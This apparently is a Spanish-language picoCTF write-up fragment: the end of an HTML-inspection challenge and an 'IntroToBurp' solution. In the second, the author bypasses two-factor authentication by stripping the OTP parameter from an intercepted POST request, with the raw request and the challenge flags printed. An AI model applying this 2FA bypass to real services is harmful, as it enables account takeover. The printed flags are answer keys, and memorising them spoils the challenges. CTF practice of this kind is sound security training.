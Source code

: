 ````` python
||<p>However, according to Herodotus, Histiaeus was unhappy having to stay in|
||Susa, and made plans to return to his position as King of Miletus by|
||instigating a revolt in Ionia. In 499 BC, he shaved the head of his|
||most trusted slave, tattooed a message on his head, and then waited for|
||his hair to grow back. The slave was then sent to Aristagoras, who was|
||instructed to shave the slave's head again and read the message, which|
||told him to revolt against the Persians.</p>|
||<br>|
||<p> Source: Wikipedia on Histiaeus </p>|
|||
||</body>|
||</html>|

flag: picoCTF{1n5p3t0r_0f_h7ml_fd5d57bd}
```
````` 


# 03 - IntroToBurp

# DESC


# SOLUCION

````` python
Para resolver este reto, primero interceptamos la petición POST con Burp después de poner los datos. Luego en la petición eliminamos el parámetro `OTP` de la petición antes de enviarla al servidor. Como el servidor está mal programado, al no recibir el OTP simplemente omite la validación del 2fa y nos deja entrar

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56853
Content-Length: 13
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://titan.picoctf.net:56853
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:56853/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJwljUsOgzAMRO-SdRckkF_3PQcyJGlLwUGJESpV716jLmfG7_kjxie9xVUcGO4HobiIsZbUU35F5BosaCVbBSCNBul86xrduGSCk4NOXtngrZGBubTNc4-wRMb2MsRyyjKtHHXnre84rlDrnks4H05EU6TpdtaPjLHHbWGKJ6naThvrfMPbVtn0t2I8kPji-wPVeTf9.Z_H3YA.JtV4iXJxFgJh8bFSwYqWfFBAK00
Connection: keep-alive

otp=123456789

borramos otp y nos da la flag

flag: picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
```
````` 
